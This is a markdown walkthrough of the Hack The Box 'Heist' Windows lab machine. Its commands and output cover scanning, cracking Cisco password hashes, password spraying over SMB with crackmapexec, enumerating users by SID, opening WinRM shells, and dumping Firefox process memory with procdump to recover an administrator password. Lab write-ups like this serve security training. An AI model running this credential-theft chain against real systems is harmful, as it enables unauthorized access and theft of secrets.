

---
tags:
  - lookupsid
  - procdump
  - firefox
  - passwordspray
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Heist
- Reference : https://0xdf.gitlab.io/2019/11/30/htb-heist.html
- Solved : 2024.12.24. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**: Identified key open ports including HTTP (80), RPC (135, 49669), SMB (445), and WinRM (5985).
    - **Web Enumeration**: Found a login page on HTTP (80) and a guest login feature revealing a chat history and a Cisco router configuration file.
    - **Credential Gathering**: Extracted hashes from the Cisco configuration file and cracked them to obtain credentials.
    
2. **Service Exploitation**
    - **SMB Enumeration**:
        - Tested credentials against SMB service to find a valid set (`hazard:stealth1agent`).
        - Enumerated accessible shares but found no significant files.
    - **RPC Enumeration**:
        - Extracted domain SID and used it to enumerate domain users.
    
3. **Password Spraying**
    - Used gathered credentials and a password spray attack to identify valid credentials for the `Chase` user account.
    
4. **Privilege Escalation**
    - **Firefox Process Dump**:
        - Dumped running Firefox processes and extracted sensitive login information, including the `Administrator` account's credentials.
    - **Final Privilege Escalation**:
        - Used the `Administrator` credentials to gain access to the system via WinRM.

### Key Techniques:

- **Enumeration**: Port scanning, SMB, and RPC enumeration.
- **Credential Cracking**: Cracked Cisco Type 5 and Type 7 hashes.
- **Password Spraying**: Identified valid credentials for multiple accounts.
- **Process Dump Analysis**: Retrieved sensitive data from memory dumps.
- **Tool Usage**: Tools like Nmap, CrackMapExec, SMBClient, Evil-WinRM, and Sysinternals Procdump.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.149
Performing quick port scan on 10.10.10.149...
Found open ports: 80,135,445,5985,49669
Performing detailed scan on 10.10.10.149...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 06:28 EST
Nmap scan report for 10.10.10.149
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-24T11:29:25
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.71 seconds
```

- 5 ports are open : http(80), rpc(135,49669), smb(445), winrm(5985)
- http(80) web seems to be led to login page.

### http(80)


It's a simple login page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.10.149
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.149
+ Target Hostname:    10.10.10.149
+ Target Port:        80
+ Start Time:         2024-12-24 06:37:54 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: Retrieved x-powered-by header: PHP/7.3.1.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST .
+ OPTIONS: Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST .
```

There's nothing useful in `nikto` scan result.


The login page also provides guest login.
Let's click this button.


The guest login shows some chat history.
The chat is talking about **cisco router** with attached config file.
Also, based on the chat, maybe account for the user `Hazard` might have been created.
Let's take a look at the attachment file first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat config.txt 
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0 mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

In the Cisco config, there are 3 different hashes of two different types, each of which are described in [this paper](https://pen-testing.sans.org/resources/papers/gcih/cisco-ios-type-7-password-vulnerability-100566):

- Cisco Type 5 Salted MD5
	- `enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91`
- Cisco Type 7  Custom, reversible
	- `username rout3r password 7 0242114B0E143F015F5D1E161713`
	- `username admin privilege 15 password 7 02375012182C1A1D751618034F36415408`

Let's try cracking these hashes using `john`.

```bash
┌──(kali㉿kali)-[~/htb/hash]
└─$ cat hash1     
$1$pdQG$o8nrSzsGXeaduXrjlvKc91


┌──(kali㉿kali)-[~/htb/hash]
└─$ john hash1 --wordlist=/usr/share/wordlists/rockyou.txt   
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:00:30 DONE (2024-12-24 07:00) 0.03311g/s 116068p/s 116068c/s 116068C/s stealthy001..stealed
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Here it cracked Type 5 hash : `stealth1agent`.

For the Type 7 hashes, here I found online tool:
https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html



`rout3r`'s password is `$uperP@ssword`


`admin`'s password is `Q4)sJu\Y8qz*A3?d`

Let's save all found usernames and passwords as lists;

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat usernames.txt 
hazard
rout3r
admin

┌──(kali㉿kali)-[~/htb]
└─$ cat passwords.txt 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

Let's try finding valid credential set using `crackmapexec` on smb service.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.149 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
```

Only `hazard`:`stealth1agent` credential is working on smb service.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.149 -u hazard -p 'stealth1agent'
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:stealth1agent
```

I checked this credential on `winrm` service, but it was not working.

### smb(445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L 10.10.10.149 -U hazard
Password for [WORKGROUP\hazard]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.


┌──(kali㉿kali)-[~/htb]
└─$ smbmap -H 10.10.10.149 -u hazard -p stealth1agent   
<SNIP>
[+] IP: 10.10.10.149:445        Name: 10.10.10.149   Status: Authenticated                                                                 
Disk                        PermissionsComment
----                        ------------------
ADMIN$                      NO ACCESS Remote Admin
C$                          NO ACCESS Default share
IPC$                        READ ONLY Remote IPC


┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.10.149\\IPC$ -U hazard       
Password for [WORKGROUP\hazard]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
```

The credential worked, but nothing useful in the shares.

### rpc(135)

Let's enumerate through rpc using `rpcclient`.

```scss
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U hazard 10.10.10.149                
Password for [WORKGROUP\hazard]:
rpcclient $> queryuser hazard
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```

Since I can retrieve SID with `lookupnames`, I can use `impacket-lookupsid` to brute-force on this to extract domain users.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-lookupsid hazard:stealth1agent@10.10.10.149
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```


# Shell as `Chase`

### Password spray

Since we've obtained username list, and several password list, I can try password spray attack with `crackcmapexec`.
Let's prepare `usernames.txt` first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.149 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
```

There's one another valid credential set : `Chase` : `Q4)sJu\Y8qz*A3?d`
Let's test if it's working on `winrm` with `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

It's working with `winrm`. So I can spawn an interactive shell with this account.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
```


# Shell as `Administrator`

### todo.txt

There's an extra file `todo.txt` on `Desktop` folder.
Let's read it.

```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> cat todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

It looks like there's an issues list somewhere, and `Chase` keeps watching it.
Also, router settings might be useful since it says they still need to fix it.
It also implies that there's restriction on guest user.

Let's try reading `login.php` file to see the page we found before.

```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> cat C:\inetpub\wwwroot\login.php
<!DOCTYPE html>
<html lang="en" >

<SNIP>

</body>
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
        if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
                $_SESSION['admin'] = "valid";
                header('Location: issues.php');
        }
        else
                header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
        if( $_GET['guest'] === 'true' ) {
                $_SESSION['guest'] = "valid";
                header('Location: issues.php');
        }
}


?>
</html>
```

This implies that the request will include `login_username` and `login_password` as its data.

I guessed that the issue it says is the one we found from the web service.
So, there might be an web browser process monitoring the issues page.

```powershell
*Evil-WinRM* PS C:\inetpub\wwwroot> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    461      18     2348       5444               408   0 csrss
    290      13     2016       5036               520   1 csrss
    357      15     3468      14292              3872   1 ctfmon
    256      14     3940      13188              3684   0 dllhost
    166       9     1880       9612       0.02   6848   1 dllhost
    614      32    28868      57560              1008   1 dwm
   1491      58    23728      77808              5168   1 explorer
    355      25    16372      38844       0.11   3664   1 firefox
   1075      69   139316     215220       5.42   6512   1 firefox
    347      19    10200      38652       0.08   6636   1 firefox
    401      34    34696      96472       0.67   6760   1 firefox
    378      28    21692      58276       0.38   7020   1 firefox
<SNIP>
```

With `Get-Process` command, I can find that `firefox` process are running.
There might be something useful if I can dump the process.

### Dump firefox process

Let's use `procdump64.exe` which belongs to `Sysinternals Suite`.
I can get the executables from here : https://live.sysinternals.com

```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> upload procdump64.exe
                                        
Info: Uploading /home/kali/htb/procdump64.exe to C:\Users\Chase\Documents\procdump64.exe
                                        
Data: 566472 bytes of 566472 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    355      25    16372      38844       0.11   3664   1 firefox
   1067      70   143644     219660       5.47   6512   1 firefox
    347      19    10200      38652       0.08   6636   1 firefox
    401      34    31696      94120       0.67   6760   1 firefox
    378      28    21720      58304       0.38   7020   1 firefox


*Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process -Name firefox | ForEach-Object { .\procdump64.exe -ma $_.Id -accepteula }

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:42] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001142.dmp
[00:11:42] Dump 1 writing: Estimated dump file size is 298 MB.
[00:11:46] Dump 1 complete: 298 MB written in 3.6 seconds
[00:11:46] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:46] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001146.dmp
[00:11:46] Dump 1 writing: Estimated dump file size is 500 MB.
[00:11:47] Dump 1 complete: 501 MB written in 0.8 seconds
[00:11:47] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:47] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001147.dmp
[00:11:47] Dump 1 writing: Estimated dump file size is 290 MB.
[00:11:47] Dump 1 complete: 290 MB written in 0.4 seconds
[00:11:48] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:48] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001148.dmp
[00:11:48] Dump 1 writing: Estimated dump file size is 337 MB.
[00:11:48] Dump 1 complete: 338 MB written in 0.5 seconds
[00:11:49] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:49] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001149.dmp
[00:11:49] Dump 1 writing: Estimated dump file size is 307 MB.
[00:11:49] Dump 1 complete: 307 MB written in 0.4 seconds
[00:11:49] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/25/2024  12:11 AM      304634129 firefox.exe_241225_001142.dmp
-a----       12/25/2024  12:11 AM      512004347 firefox.exe_241225_001146.dmp
-a----       12/25/2024  12:11 AM      296627419 firefox.exe_241225_001147.dmp
-a----       12/25/2024  12:11 AM      345140376 firefox.exe_241225_001148.dmp
-a----       12/25/2024  12:11 AM      313652189 firefox.exe_241225_001149.dmp
-a----       12/25/2024  12:08 AM         424856 procdump64.exe
```

Given the parameters found from `login.php` previously, let's try to find if there's any file stores the login data.

```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> Select-String -Pattern "login_username" -Path .\*

<SNIP>
          DriverData=C:\Windows\System32\Drivers\DriverData�,�/�� u�u�
O�u�a�u��,�)��\Sessions\1\Windows\ApiPortection�,�&��"C:\Program Files\Mozilla Firefox\firefox.exe"
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=�,�m�����u� b�w�
<SNIP>
```

It contains `admin@support.htb`'s password : `4dD!5}x/re8]FBuZ`
I tried this credential to login page, and it worked!


It worked! Let's check if this credential is working on any other accounts.

### Password spray attack

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.149 -u usernames.txt -p '4dD!5}x/re8]FBuZ' --continue-on-success 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
```

This credential is working with `Administrator` account!
Let's check if I can spawn an interactive shell with `winrm`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

Yeah, it's working! Let's spawn a shell!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
```

I got `Administrator`!